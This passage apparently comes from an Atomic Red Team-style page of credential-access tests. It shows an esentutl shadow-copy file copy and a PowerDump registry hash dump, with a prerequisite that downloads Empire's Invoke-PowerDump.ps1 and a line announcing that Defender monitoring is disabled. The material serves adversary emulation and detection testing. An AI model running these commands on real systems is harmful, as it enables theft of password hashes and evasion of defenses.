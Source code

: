 #### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
esentutl.exe /y /vss #{file_path} /d #{copy_dest}/#{file_name}
```

#### Cleanup Commands:

```cmd
del #{copy_dest}\#{file_name} >nul 2>&1
```

<br/>
<br/>

## Atomic Test #4 - PowerDump Hashes and Usernames from Registry

Executes a hashdump by reading the hashes from the registry.

**Supported Platforms:** Windows

**auto_generated_guid:** 804f28fc-68fc-40da-b5a2-e9d0bce5c193

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Write-Host "STARTING TO SET BYPASS and DISABLE DEFENDER REALTIME MON" -fore green
Import-Module "PathToAtomicsFolder\..\ExternalPayloads\PowerDump.ps1"
Invoke-PowerDump
```

#### Dependencies: Run with `powershell`!

##### Description: PowerDump script must exist on disk at specified location

##### Check Prereq Commands:

```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\PowerDump.ps1") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction ignore -Force | Out-Null
Invoke-Webrequest -Uri "https://raw.githubusercontent.com/BC-SECURITY/Empire/c1bdbd0fdafd5bf34760d5b158dfd0db2bb19556/data/module_source/credentials/Invoke-PowerDump.ps1" -UseBasicParsing -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PowerDump.ps1"
```

<br/>
<br/>
